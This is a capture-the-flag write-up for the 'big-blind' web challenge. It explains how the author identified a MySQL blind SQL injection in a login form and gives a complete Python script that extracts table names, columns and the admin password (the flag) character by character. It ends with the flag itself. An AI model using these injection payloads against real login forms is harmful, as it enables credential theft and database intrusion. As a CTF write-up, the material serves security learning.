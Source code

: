 ## big-blind 136 solves / 444 points ##
## Description:
https://big-blind.hsc.tf
## Solution:

-From the title "Big Blind" I was fairly sure this was some kind of Blind Injection, probably SQL, but I didn't want to assume anything.
-Sending a single ' returned a 500 internal server error, backing up my theory that it was probably blind SQL injection.

-After trying a few different things, using the sleep function didn't return an error, but didn't seem to do anything.
I tried other waiting commands like WAITFOR DELAY '0:0:10', dbms_pipe.receive_message(('a'),10) and pg_sleep(10), however, all of these returned errors. 
This meant that it was probably either SQLlite or MySQL.

-I then tested GLOB, a function that is in SQLlite but not MySQL, this returned an error, suggesting that it was MySQL

-Because the database was MySQL, I knew that SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM 
information_schema.tables),'a') would trigger an error if true, and put it into a python script to attempt to expose 
the database's contents.

-I used the script to determine the tablename (users) from information_schema.tables, then determined the column names 
(user, pass) from information_schema.columns, and then finally enumerated the username and password (admin, the flag)

-The script is here, I modified it to make it run for each different function, and in this form it is configured for 
enumerating the flag, which was the last time I used it(sorry if its a bit messy):
```
import requests
url = "https://big-blind.hsc.tf/"
payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+TABLE_NAME+FROM+information_schema.tables+LIMIT+1),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
headers = {
  'Host': 'big-blind.hsc.tf',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Content-Type': 'application/x-www-form-urlencoded',
  'Content-Length': '166',
  'Origin': 'https://big-blind.hsc.tf',
  'Connection': 'close',
  'Referer': 'https://big-blind.hsc.tf/',
  'Upgrade-Insecure-Requests': '1'
}


lalph = list(map(chr, range(ord('a'), ord('z')+1)))
Ualph = list(map(chr, range(ord('A'), ord('Z')+1)))
nums = list(range(0,10))
blank = [""]
additionals = ["_","$","{","}"]
totalPos = blank+additionals+lalph+Ualph+nums
fullAlph = []
for val in totalPos:
    fullAlph.append(str(val))
end = False
thing = 0
dbNames= []
password = "flag"
maxi = 50
while thing < maxi:
    if(end==True):
        end=False
        print("Adding: "+password)
        dbNames+=[password]
        password=""
        
        thing+=1
    for Char in totalPos:
        Char = str(Char)
        reqH = payload
        payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+pass+FROM+users+WHERE+user='admin'+LIMIT+1+OFFSET+{}),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
        reqH = reqH.format(thing,len(password)+1,password+Char)
        #print(reqH)
        response = requests.request("POST", url, headers=headers, data=reqH)
        #print(response)
        if("<html lang" in str(response.content)):
            if(Char == ""):
                end=True
                break
            else:
                print(password+Char+"=True")
                password+=Char
                break
        else:
            print(password+Char+"=False")
       
    


print("Database Names: ")
for name in dbNames:
    print(str(name))
    
```    
## Flag:
flag{any_info_is_good_info}
